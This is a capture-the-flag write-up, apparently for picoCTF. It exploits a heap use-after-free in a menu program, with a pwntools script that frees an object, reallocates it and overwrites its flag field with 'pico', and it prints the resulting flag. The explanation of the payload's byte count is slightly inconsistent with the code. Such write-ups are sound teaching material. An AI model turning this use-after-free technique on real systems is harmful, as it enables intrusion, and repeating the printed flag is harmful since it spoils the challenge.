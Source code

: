 ```terminal
Enter your choice:
```


## The Plan
So, to exploit this program, we can leverage the UAF vulnerability that I previously discussed. If we combine this with heap allocation manipulation (via buffer overflow), we can overwrite a specific field in a freed structure (`x->flag`) with the string `"pico"`. This is how it would look like step by step:
1. This select option `5` to **free x**.
2. This select option `2` to **allocate** a new block of memory, which is likely to use the same memory area that `x` was previously occupying, because they're goingto have similar size requirements.
    - The allocation size will be between 20 and 40, this way, we increase the likelihood that our new allocation will overlap with the previously freed `object` struct.
    - Recall that the `object` struct has 4 members, for a total of 35 bytes.
    ```c
    typedef struct {
  char a[10]; // ten bytes
  char b[10]; // ten bytes
  char c[10]; // ten bytes
  char flag[5]; // 5 bytes
} object;
    ```
3. While still in the "allocate object" option, we now input a payloads string that will contain `"pico"` at the end to overwrite the previous `flag` value `"bico"`.
4. Select option 4 ("Check for win") and get our flag!

## Solution

The [pwntools](https://docs.pwntools.com/en/stable/) payloads that I came up with is as follows:

```py
from pwn import *

r = remote('tethys.picoctf.net',51280)

r.sendline(b'5')
r.sendline(b'2')

r.sendline(b'40')
payloads = b'A' * 30 + b'pico'


r.sendline(payloads)
r.sendline(b'4')
r.interactive()
```
All of the `r.sendline`'s are for selecting options in the interface. As for the actual payloads, it consists of an initial 24 bytes (8 blocks of A's), and then a final block of 6 A's, and "pico"- for a total of 34 bytes. The reason we are inputting 34 bytes, rather than 35, is because the `flag` field in the `object` struct has a 5 byte space, due to the program accounting for a [null byte](https://null-byte.wonderhowto.com/newest/).

flag: `picoCTF{now_thats_free_real_estate_a7381726}`
